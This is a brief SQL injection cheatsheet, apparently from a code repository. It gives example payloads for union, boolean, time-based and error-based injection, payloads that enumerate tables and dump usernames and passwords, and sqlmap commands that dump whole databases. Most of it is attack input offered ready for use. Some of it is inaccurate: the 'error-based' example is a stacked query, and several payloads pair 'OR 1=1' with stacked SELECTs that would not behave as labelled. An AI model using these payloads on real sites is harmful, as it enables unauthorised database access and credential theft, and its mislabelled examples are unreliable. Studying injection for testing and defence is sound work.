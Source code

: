 # SQL Injection Cheatsheet

## SQL Injection Basics

- SQL injection is a web security vulnerability that allows an attacker to manipulate a website's database by injecting malicious SQL code.
- SQL injection attacks can result in unauthorized access, data leakage, or even complete takeover of a website's database.

## SQL Injection Techniques

1. **Union-based SQL Injection:**
   - Union-based SQL injection involves leveraging the SQL UNION operator to retrieve data from different tables in a single query.
   - Example payload: `1' UNION SELECT username, password FROM users --`

2. **Boolean-based SQL Injection:**
   - Boolean-based SQL injection exploits boolean conditions in SQL queries to extract information.
   - Example payload: `1' OR '1'='1'--`

3. **Time-based Blind SQL Injection:**
   - Time-based blind SQL injection involves causing a delay in the SQL query execution to determine if a condition is true or false.
   - Example payload: `1' AND SLEEP(5)--`

4. **Error-based SQL Injection:**
   - Error-based SQL injection exploits SQL errors to extract information from the database.
   - Example payload: `1' OR 1=1; SELECT * FROM users WHERE username LIKE '%a%'--`

## SQL Injection Payloads

- **Retrieve Database Version:**
  - Payload: `1' OR 1=1; SELECT @@version--`

- **Retrieve Current User:**
  - Payload: `1' OR 1=1; SELECT user()--`

- **Enumerate Database Tables:**
  - Payload: `1' OR 1=1; SELECT table_name FROM information_schema.tables WHERE table_schema=database()--`

- **Retrieve Data from a Specific Table:**
  - Payload: `1' OR 1=1; SELECT column1, column2 FROM table_name--`

- **Dumping Password Hashes:**
  - Payload: `1' OR 1=1; SELECT username, password FROM users--`

## SQL Injection Tools

**SQLmap:**
SQLmap is an open-source penetration testing tool designed for automating the process of detecting and exploiting SQL injection vulnerabilities.

**Usage examples:**

* Perform full automatic SQL injection testing:
```
sqlmap -u <target URL> --level=5 --risk=3
```

* Enumerate database tables:
```
sqlmap -u <target URL> --tables
```

* Dump database contents:
```
sqlmap -u <target URL> -D <database name> --dump
```
